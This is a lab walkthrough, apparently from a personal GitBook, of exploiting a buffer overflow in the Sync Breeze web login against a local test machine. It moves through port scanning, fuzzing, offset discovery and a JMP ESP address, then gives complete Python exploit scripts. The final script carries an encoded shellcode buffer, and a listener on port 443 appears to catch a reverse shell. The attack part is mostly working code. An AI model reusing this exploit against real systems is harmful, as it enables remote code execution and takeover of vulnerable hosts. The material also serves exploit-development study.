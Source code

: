 # sync breeze

![image.png](<../../../../.gitbook/assets/image (2) (1) (1) (1) (1).png>)

*   **Scan machine**

    we start to scan port number by using `unicornscan` tool which is faster than nmap. you can install it by this command `sudo apt install unicornscan`

    ![Screenshot 2025-03-13 231202.png](<../../../../.gitbook/assets/Screenshot_2025 03 13_231202.png>)

    ```bash
    sudo unicornscan -ImT 10.0.2.4:1-2000 # 1-2000 scan ports from 1 to 2000
    ```

    we discovered this ports is open let’s know what’s the service is running for each port

<figure><img src="../../../../.gitbook/assets/Screenshot_2025 03 13_231202.png" alt=""><figcaption></figcaption></figure>

after search we find this is old version which is vulnerable to BOF so lets download this service and try to exploit it in our services

*   **Fuzzing**

    open the browser and Wireshark tool then show the request was sent

    ![Screenshot 2025-03-13 231447.png](<../../../../.gitbook/assets/Screenshot_2025 03 13_231447.png>)

    try to create python code to smash the vulnerable machine

    ```bash
    #!/bin/python3
    import socket
    import sys
    import time
    target_ip = "10.0.2.4"
    target_port = 80  
    l = 100
    step = 100 
    while True:
        try:
            payload = "username=" + "A" * l + "&password=1234"
            request=""
            request+="POST /login HTTP/1.1\r\n"
            request+="Host: 10.0.2.4\r\n"
            request+="User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0\r\n"
            request+="Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8\r\n"
            request+="Accept-Language: en-US,en;q=0.5\r\n"
            request+="Accept-Encoding: gzip, deflate\r\n"
            request+="Content-Type: application/x-www-form-urlencoded\r\n"
            request+=f"Content-Length: {len(payload)}\r\n"
            request+="Origin: http://10.0.2.4"
            request+="Connection: keep-alive\r\n"
            request+="Referer: http://10.0.2.4/login\r\n"
            request+="Upgrade-Insecure-Requests: 1\r\n"
            request+="Priority: u=0, i\r\n"
            request+="\r\n"
            request+=payloadS

            s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
            s.connect((target_ip, 80))
            print(f"Sending {l} bytes...")
            s.send(request.encode())
            response = s.recv(1024) 
            print(f"Response: {response.decode(errors='ignore')}")
            s.close()
            print(f"Trying payload size: {l} bytes...")
            l += step
            time.sleep(1)
        except Exception as e:
            print(f"Fuzzing crashed at {l} bytes")
            sys.exit()
    ```

    run this script and we will notice this machine is crashed after 800 char sent

    ![1.png](../../../../.gitbook/assets/1.png)
*   **locate offset**

    create offset by using Metasploit

<figure><img src="../../../../.gitbook/assets/image 2 (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```bash
./pattern_create.rb -l 800
```

then send it by python script we will notice this machine is crashed

<figure><img src="../../../../.gitbook/assets/image 3 (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

and the offset is 780

let’s know which is four is overwrite in EIP

![3.png](../../../../.gitbook/assets/3.png)

*   **Hijack execution**

    use `nasm shell` tool to transfer **JMP ESP** to op code

<figure><img src="../../../../.gitbook/assets/image 4 (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

use mona to search on this code we found this add `10090C83`

after transfer this address to **Little Endian**

<figure><img src="../../../../.gitbook/assets/image 5 (1) (1).png" alt=""><figcaption></figcaption></figure>

```python
#!/bin/python3
import socket
import sys
import time

target_ip = "10.0.2.4"
target_port = 80   

add = b"A" * 780 + b"\x83\x0C\x09\x10" + b"C" * 16
payload = b"username=" + add + b"&password=1234"

request = b"POST /login HTTP/1.1\r\n"
request += b"Host: 10.0.2.4\r\n"
request += b"User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0\r\n"
request += b"Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8\r\n"
request += b"Accept-Language: en-US,en;q=0.5\r\n"
request += b"Accept-Encoding: gzip, deflate\r\n"
request += b"Content-Type: application/x-www-form-urlencoded\r\n"
request += b"Content-Length: " + str(len(payload)).encode() + b"\r\n"
request += b"Origin: http://10.0.2.4\r\n"
request += b"Connection: close\r\n"
request += b"Referer: http://10.0.2.4/login\r\n"
request += b"Upgrade-Insecure-Requests: 1\r\n"
request += b"Priority: u=0, i\r\n"
request += b"\r\n"
request += payload  

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((target_ip, target_port))
s.sendall(request)  
response = s.recv(4096)
print(f"Response: {response.decode(errors='ignore')}")
s.close()
```

*   **craft shellcode**

    discover bad characters then generate a shell code&#x20;

<figure><img src="../../../../.gitbook/assets/image 6 (1).png" alt=""><figcaption></figcaption></figure>

<pre class="language-python"><code class="lang-python"><strong>#!/bin/python3
</strong>import socket
import sys
import time
target_ip = "10.0.2.4"
target_port = 80   

# ESP add 10090C83

buf =  b""
buf += b"\xd9\xc4\xd9\x74\x24\xf4\x5d\xba\xc3\xd9\xbf\x94"
buf += b"\x29\xc9\xb1\x52\x31\x55\x17\x83\xed\xfc\x03\x96"
buf += b"\xca\x5d\x61\xe4\x05\x23\x8a\x14\xd6\x44\x02\xf1"
buf += b"\xe7\x44\x70\x72\x57\x75\xf2\xd6\x54\xfe\x56\xc2"
buf += b"\xef\x72\x7f\xe5\x58\x38\x59\xc8\x59\x11\x99\x4b"
buf += b"\xda\x68\xce\xab\xe3\xa2\x03\xaa\x24\xde\xee\xfe"
buf += b"\xfd\x94\x5d\xee\x8a\xe1\x5d\x85\xc1\xe4\xe5\x7a"
buf += b"\x91\x07\xc7\x2d\xa9\x51\xc7\xcc\x7e\xea\x4e\xd6"
buf += b"\x63\xd7\x19\x6d\x57\xa3\x9b\xa7\xa9\x4c\x37\x86"
buf += b"\x05\xbf\x49\xcf\xa2\x20\x3c\x39\xd1\xdd\x47\xfe"
buf += b"\xab\x39\xcd\xe4\x0c\xc9\x75\xc0\xad\x1e\xe3\x83"
buf += b"\xa2\xeb\x67\xcb\xa6\xea\xa4\x60\xd2\x67\x4b\xa6"
buf += b"\x52\x33\x68\x62\x3e\xe7\x11\x33\x9a\x46\x2d\x23"
buf += b"\x45\x36\x8b\x28\x68\x23\xa6\x73\xe5\x80\x8b\x8b"
buf += b"\xf5\x8e\x9c\xf8\xc7\x11\x37\x96\x6b\xd9\x91\x61"
buf += b"\x8b\xf0\x66\xfd\x72\xfb\x96\xd4\xb0\xaf\xc6\x4e"
buf += b"\x10\xd0\x8c\x8e\x9d\x05\x02\xde\x31\xf6\xe3\x8e"
buf += b"\xf1\xa6\x8b\xc4\xfd\x99\xac\xe7\xd7\xb1\x47\x12"
buf += b"\xb0\xb7\x97\x1e\x45\xa0\x95\x1e\x44\x8b\x13\xf8"
buf += b"\x2c\xfb\x75\x53\xd9\x62\xdc\x2f\x78\x6a\xca\x4a"
buf += b"\xba\xe0\xf9\xab\x75\x01\x77\xbf\xe2\xe1\xc2\x9d"
buf += b"\xa5\xfe\xf8\x89\x2a\x6c\x67\x49\x24\x8d\x30\x1e"
buf += b"\x61\x63\x49\xca\x9f\xda\xe3\xe8\x5d\xba\xcc\xa8"
buf += b"\xb9\x7f\xd2\x31\x4f\x3b\xf0\x21\x89\xc4\xbc\x15"
buf += b"\x45\x93\x6a\xc3\x23\x4d\xdd\xbd\xfd\x22\xb7\x29"
buf += b"\x7b\x09\x08\x2f\x84\x44\xfe\xcf\x35\x31\x47\xf0"
buf += b"\xfa\xd5\x4f\x89\xe6\x45\xaf\x40\xa3\x76\xfa\xc8"
buf += b"\x82\x1e\xa3\x99\x96\x42\x54\x74\xd4\x7a\xd7\x7c"
buf += b"\xa5\x78\xc7\xf5\xa0\xc5\x4f\xe6\xd8\x56\x3a\x08"
buf += b"\x4e\x56\x6f"

add = b"A" * 780 + b"\x83\x0C\x09\x10" + b"\x90" * 32+buf
payload = b"username=" + add + b"&#x26;password=1234"

request = b"POST /login HTTP/1.1\r\n"
request += b"Host: 10.0.2.4\r\n"
request += b"User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0\r\n"
request += b"Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8\r\n"
request += b"Accept-Language: en-US,en;q=0.5\r\n"
request += b"Accept-Encoding: gzip, deflate\r\n"
request += b"Content-Type: application/x-www-form-urlencoded\r\n"
request += b"Content-Length: " + str(len(payload)).encode() + b"\r\n"
request += b"Origin: http://10.0.2.4\r\n"
request += b"Connection: close\r\n"
request += b"Referer: http://10.0.2.4/login\r\n"
request += b"Upgrade-Insecure-Requests: 1\r\n"
request += b"Priority: u=0, i\r\n"
request += b"\r\n"
request += payload  
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((target_ip, target_port))
s.sendall(request)  
response = s.recv(4096)  
print(f"Response: {response.decode(errors='ignore')}")
s.close()
</code></pre>

*   **execute shellcode**

    open listener on port 443

<figure><img src="../../../../.gitbook/assets/image 7.png" alt=""><figcaption></figcaption></figure>

